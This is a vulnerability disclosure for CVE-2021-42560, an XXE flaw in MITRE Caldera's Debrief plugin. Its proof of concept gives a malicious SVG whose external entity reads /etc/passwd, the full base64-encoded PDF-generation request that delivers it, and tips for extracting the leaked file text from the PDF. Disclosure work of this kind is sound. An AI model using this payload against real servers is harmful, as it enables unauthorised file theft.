

# CVE-2021-42560: Unsafe XML Parsing in MITRE Caldera

The Debrief plugin in Caldera (versions <=2.9.0) receives base64 encoded "SVG" parameters when generating a PDF. These SVG are parsed in an unsafe manner and can be leveraged for XXE attacks (E.g. File Exfiltration, Server Side Request Forgery, Out of Band Exfiltration, etc.).
<br/>

### Software:

The MITRE Caldera software can be found [here](https://github.com/mitre/caldera).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

In this example we will replace the “fact” SVG with a valid malicious payload that contains an inline XML External Entity (XXE) which will be used exfiltrate the "/etc/passwd" file.
<br/>

The malicious SVG will have the following form:
```
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><svg xmlns="http://www.w3.org/2000/svg" id="copy-svg" class="op-svg debrief-svg" style="width: 100%; height: 100%;" viewBox="2660 910 1199.699951171875 180"><defs><marker id="arrowheadtechnique" viewBox="-0 -5 10 10" refX="30" refY="0" orient="auto" markerWidth="8" markerHeight="8" xoverflow="visible"><path d="M 0,-5 L 10 ,0 L 0,5" fill="#999" style="stroke: none;"/></marker></defs><g class="container" width="100%" height="100%" transform="scale(5)"><g style="stroke: rgb(170, 170, 170);"/><g class="nodes"><g class="node operation" transform="translate(550,200)"><circle r="16" style="fill: rgb(239, 239, 239); stroke: rgb(66, 66, 66); stroke-width: 1px;"/><text class="label" x="18" y="8" style="font-size: 12px; fill: rgb(51, 51, 51);">&test;</text><g class="icons"><svg version="1.0" xmlns="http://www.w3.org/2000/svg" width="32" height="16" viewBox="0 0 270.000000 255.000000" preserveAspectRatio="xMidYMid meet" class="svg-icon" x="-16" y="-8">
<g transform="translate(0.000000,255.000000) scale(0.100000,-0.100000)" fill="#000000" stroke="none">
<path d="M593 2540 c-237 -43 -459 -238 -545 -480 -20 -58 -23 -83 -22 -220 0 -139 3 -164 28 -245 78 -257 252 -542 518 -850 132 -152 476 -487 637 -620 73 -60 137 -110 141 -110 17 0 279 226 430 371 326 312 534 563 701 843 269 451 272 812 9 1094 -187 202 -445 272 -675 186 -131 -49 -273 -176 -384 -345 -38 -58 -72 -111 -75 -117 -4 -9 -8 -9 -11 -1 -3 6 -37 60 -76 119 -118 181 -267 309 -416 355 -76 23 -190 32 -260 20z m452 -542 c23 -22 32 -57 125 -557 55 -294 102 -537 105 -539 6 -6 8 -2 165 415 74 194 142 362 153 373 26 29 74 23 99 -11 11 -14 54 -143 95 -285 41 -142 77 -261 80 -264 2 -2 52 46 111 108 l107 112 133 0 c72 0 132 -4 132 -8 0 -5 -18 -37 -40 -70 l-40 -62 -62 0 -63 0 -134 -150 c-73 -82 -142 -152 -153 -156 -29 -9 -66 4 -82 29 -8 12 -42 119 -76 237 -34 118 -65 219 -68 224 -2 4 -24 -43 -48 -105 -223 -592 -268 -707 -286 -726 -27 -29 -60 -29 -92 -1 -23 21 -32 60 -121 538 -53 283 -98 522 -102 530 -3 8 -35 -73 -72 -182 -36 -108 -74 -205 -84 -216 -27 -29 -70 -34 -246 -26 l-158 7 -41 68 -41 69 194 0 194 0 101 310 c104 315 125 360 169 360 11 0 31 -10 46 -22z"/>
</g>
</svg>undefined</g></g></g></g></svg>
```

Now we base64 encode the above SVG and insert it into the PDF creation POST request.
<br/>

Request:
```
POST /plugin/debrief/pdf HTTP/1.1
Host: 127.0.0.1:8888
Content-Type: application/json
Content-Length: 39124
Cookie: API_SESSION="gAAAAA***TRUNCATED***vO8lJ6w=="

{"operations":["228395"],"graphs":{"graph":"PHN2ZyB4bWxucz0iaHR0cDov***TRUNCATED***PjwvZz48L2c+PC9zdmc+",
"tactic":"PHN2ZyB4bWxucz0iaHR0cDovL3***TRUNCATED***PjwvZz48L2c+PC9nPjwvc3ZnPg==",
"technique":"PHN2ZyB4bWxucz0iaHR0cDo***TRUNCATED***PC9nPjwvZz48L2c+PC9nPjwvc3ZnPg==",
"fact":"PCFET0NUWVBFIHJvb3QgWzwhRU5USVRZIHRlc3QgU1lTVEVNICdmaWxlOi8vL2V0Yy9wYXNzd2QnPl0+PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIGlkPSJjb3B5LXN2ZyIgY2xhc3M9Im9wLXN2ZyBkZWJyaWVmLXN2ZyIgc3R5bGU9IndpZHRoOiAxMDAlOyBoZWlnaHQ6IDEwMCU7IiB2aWV3Qm94PSIyNjYwIDkxMCAxMTk5LjY5OTk1MTE3MTg3NSAxODAiPjxkZWZzPjxtYXJrZXIgaWQ9ImFycm93aGVhZHRlY2huaXF1ZSIgdmlld0JveD0iLTAgLTUgMTAgMTAiIHJlZlg9IjMwIiByZWZZPSIwIiBvcmllbnQ9ImF1dG8iIG1hcmtlcldpZHRoPSI4IiBtYXJrZXJIZWlnaHQ9IjgiIHhvdmVyZmxvdz0idmlzaWJsZSI+PHBhdGggZD0iTSAwLC01IEwgMTAgLDAgTCAwLDUiIGZpbGw9IiM5OTkiIHN0eWxlPSJzdHJva2U6IG5vbmU7Ii8+PC9tYXJrZXI+PC9kZWZzPjxnIGNsYXNzPSJjb250YWluZXIiIHdpZHRoPSIxMDAlIiBoZWlnaHQ9IjEwMCUiIHRyYW5zZm9ybT0ic2NhbGUoNSkiPjxnIHN0eWxlPSJzdHJva2U6IHJnYigxNzAsIDE3MCwgMTcwKTsiLz48ZyBjbGFzcz0ibm9kZXMiPjxnIGNsYXNzPSJub2RlIG9wZXJhdGlvbiIgdHJhbnNmb3JtPSJ0cmFuc2xhdGUoNTUwLDIwMCkiPjxjaXJjbGUgcj0iMTYiIHN0eWxlPSJmaWxsOiByZ2IoMjM5LCAyMzksIDIzOSk7IHN0cm9rZTogcmdiKDY2LCA2NiwgNjYpOyBzdHJva2Utd2lkdGg6IDFweDsiLz48dGV4dCBjbGFzcz0ibGFiZWwiIHg9IjE4IiB5PSI4IiBzdHlsZT0iZm9udC1zaXplOiAxMnB4OyBmaWxsOiByZ2IoNTEsIDUxLCA1MSk7Ij4mdGVzdDs8L3RleHQ+PGcgY2xhc3M9Imljb25zIj48c3ZnIHZlcnNpb249IjEuMCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB3aWR0aD0iMzIiIGhlaWdodD0iMTYiIHZpZXdCb3g9IjAgMCAyNzAuMDAwMDAwIDI1NS4wMDAwMDAiIHByZXNlcnZlQXNwZWN0UmF0aW89InhNaWRZTWlkIG1lZXQiIGNsYXNzPSJzdmctaWNvbiIgeD0iLTE2IiB5PSItOCI+CjxnIHRyYW5zZm9ybT0idHJhbnNsYXRlKDAuMDAwMDAwLDI1NS4wMDAwMDApIHNjYWxlKDAuMTAwMDAwLC0wLjEwMDAwMCkiIGZpbGw9IiMwMDAwMDAiIHN0cm9rZT0ibm9uZSI+CjxwYXRoIGQ9Ik01OTMgMjU0MCBjLTIzNyAtNDMgLTQ1OSAtMjM4IC01NDUgLTQ4MCAtMjAgLTU4IC0yMyAtODMgLTIyIC0yMjAgMCAtMTM5IDMgLTE2NCAyOCAtMjQ1IDc4IC0yNTcgMjUyIC01NDIgNTE4IC04NTAgMTMyIC0xNTIgNDc2IC00ODcgNjM3IC02MjAgNzMgLTYwIDEzNyAtMTEwIDE0MSAtMTEwIDE3IDAgMjc5IDIyNiA0MzAgMzcxIDMyNiAzMTIgNTM0IDU2MyA3MDEgODQzIDI2OSA0NTEgMjcyIDgxMiA5IDEwOTQgLTE4NyAyMDIgLTQ0NSAyNzIgLTY3NSAxODYgLTEzMSAtNDkgLTI3MyAtMTc2IC0zODQgLTM0NSAtMzggLTU4IC03MiAtMTExIC03NSAtMTE3IC00IC05IC04IC05IC0xMSAtMSAtMyA2IC0zNyA2MCAtNzYgMTE5IC0xMTggMTgxIC0yNjcgMzA5IC00MTYgMzU1IC03NiAyMyAtMTkwIDMyIC0yNjAgMjB6IG00NTIgLTU0MiBjMjMgLTIyIDMyIC01NyAxMjUgLTU1NyA1NSAtMjk0IDEwMiAtNTM3IDEwNSAtNTM5IDYgLTYgOCAtMiAxNjUgNDE1IDc0IDE5NCAxNDIgMzYyIDE1MyAzNzMgMjYgMjkgNzQgMjMgOTkgLTExIDExIC0xNCA1NCAtMTQzIDk1IC0yODUgNDEgLTE0MiA3NyAtMjYxIDgwIC0yNjQgMiAtMiA1MiA0NiAxMTEgMTA4IGwxMDcgMTEyIDEzMyAwIGM3MiAwIDEzMiAtNCAxMzIgLTggMCAtNSAtMTggLTM3IC00MCAtNzAgbC00MCAtNjIgLTYyIDAgLTYzIDAgLTEzNCAtMTUwIGMtNzMgLTgyIC0xNDIgLTE1MiAtMTUzIC0xNTYgLTI5IC05IC02NiA0IC04MiAyOSAtOCAxMiAtNDIgMTE5IC03NiAyMzcgLTM0IDExOCAtNjUgMjE5IC02OCAyMjQgLTIgNCAtMjQgLTQzIC00OCAtMTA1IC0yMjMgLTU5MiAtMjY4IC03MDcgLTI4NiAtNzI2IC0yNyAtMjkgLTYwIC0yOSAtOTIgLTEgLTIzIDIxIC0zMiA2MCAtMTIxIDUzOCAtNTMgMjgzIC05OCA1MjIgLTEwMiA1MzAgLTMgOCAtMzUgLTczIC03MiAtMTgyIC0zNiAtMTA4IC03NCAtMjA1IC04NCAtMjE2IC0yNyAtMjkgLTcwIC0zNCAtMjQ2IC0yNiBsLTE1OCA3IC00MSA2OCAtNDEgNjkgMTk0IDAgMTk0IDAgMTAxIDMxMCBjMTA0IDMxNSAxMjUgMzYwIDE2OSAzNjAgMTEgMCAzMSAtMTAgNDYgLTIyeiIvPgo8L2c+Cjwvc3ZnPnVuZGVmaW5lZDwvZz48L2c+PC9nPjwvZz48L3N2Zz4="}}
```

The resulting PDF will contain the exfiltrated content of the "/etc/passwd" file:


<strong>Note:</strong> Modifications can be made to the SVG text proportions/wrap properties to display the whole file contents. Another option may be to use tools that extract text from PDF in order to recover all the exfiltrated information.
